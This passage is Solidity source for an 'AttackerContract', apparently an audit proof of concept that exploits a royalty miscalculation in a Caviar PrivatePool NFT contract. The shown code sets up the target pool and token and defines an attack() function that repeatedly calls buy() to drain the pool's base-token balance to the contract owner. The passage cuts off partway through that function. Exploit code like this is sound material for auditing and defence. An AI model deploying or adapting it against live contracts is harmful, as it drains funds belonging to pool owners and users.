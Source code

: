 ```solidity

/**
 * @title AttackerContract.
 * @notice The main logic for exploiting the vulnerability in PrivatePool.sol.
 */
contract AttackerContract is Ownable, ERC721TokenReceiver {
    /// @notice The NFT collection contract that is used by the private pool.
    ERC721RoyaltyCollection public nft;

    /// @notice The Caviar private pool that incorrectly calculates royalties.
    PrivatePool public vulnerablePrivatePool;

    /// @notice The target token ID that will be used to perform the exploit.
    uint256 public tokenId;

    /// @notice Needed to reset state after attack is performed.
    uint256 public originalFee;

    /// @notice Helper flags needed to navigate the attack path in the receive() function.
    bool public f1;
    bool public f2;

    /**
     * @param _vulnerablePrivatePool The address of the targeted Caviar private pool.
     * @param _nft The NFT collection address.
     * @param _tokenId The specific NFT that will be used for the exploit.
     */
    constructor(
        address payable _vulnerablePrivatePool,
        address _nft,
        uint256 _tokenId
    ) {
        nft = ERC721RoyaltyCollection(_nft);
        vulnerablePrivatePool = PrivatePool(_vulnerablePrivatePool);

        tokenId = _tokenId;
    }

    /**
     * @notice Executes the attack. Drains the base token balance of the private pool and sends it to the owner.
     * @param iterations How many times to perform the attack in order to drain the entire base token balance of the pool.
     * @param tokenIds An array including only the tokenId that will be used to perform the attack.
     * @param tokenWeights Empty array if the merkle root is bytes32(0).
     * @param proof Empty if the merkle root is bytes32(0).
     */
    function attack(
        uint256 iterations,
        uint256[] calldata tokenIds,
        uint256[] calldata tokenWeights,
        PrivatePool.MerkleMultiProof calldata proof
    ) external payable onlyOwner {
        // Execute attack.
        for (uint256 i; i < iterations; i++) {
            vulnerablePrivatePool.buy{value: msg.value}(
                tokenIds,
                tokenWeights,
                proof
            );
        }

        // Return all assets to the owner/original receiver.
```